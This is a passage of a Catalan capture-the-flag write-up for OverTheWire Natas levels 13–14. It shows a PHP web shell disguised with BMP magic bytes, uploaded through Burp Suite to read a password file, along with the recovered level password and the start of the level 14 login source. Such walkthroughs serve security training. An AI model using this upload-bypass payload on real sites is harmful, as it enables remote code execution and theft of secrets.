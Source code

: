 ````
Hem d’investigar el magic numbers, que verifiquen que el fitxer sigui una imatge, i haurem d’intentar enganyar fent que esl primers bits siguin alguns dels magin numbers per intentar enganyar el codi de la pàgina. [File Magic Numbers (github.com)](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)


Hem de posar el codi ascii als primers bits del fitxer per intentar enganyar-lo:


![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/1bb7dc48-6870-4399-82f8-fe0ba7410505)


  

``BM;<? echo (exec('cat /etc/natas_webpass/natas14')); ?>``

El servidor comprovarà els primers bits i si li es pensa que és una imatge ens deixarà passar:

Canviem a PHP la petició interceptada amb burpsuite també, igual que abans:

6igbjfy1kx.php

Ens dona el link, hi cliquem i ja tenim la password, que ve amb el BM (ja que ho hem provat amb el format BMP) i li hem de treure:

``BM;qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP``

  

![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/f0289e1f-7b65-43c0-92dc-e835090d710f)


  

**L’error** **és** que el sistema de verificació és una mica fluixet i l’hem aconseguit enredar, heredant evidenment tot lo del nivell anterior.

-**Level 14**

Ara veiem un login, amb un camp per el nom d’usuari i un per la password:

<html>  
<head>  
<!-- This stuff in the header has nothing to do with the level -->  
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">  
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />  
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />  
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>  
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>  
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>  
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>  
<body>  
<h1>natas14</h1>  
<div id="content">  
<?php  
if(array_key_exists("username", $_REQUEST)) {  
    $link = mysqli_connect('localhost', 'natas14', '<censored>');  
    mysqli_select_db($link, 'natas14');  
  
````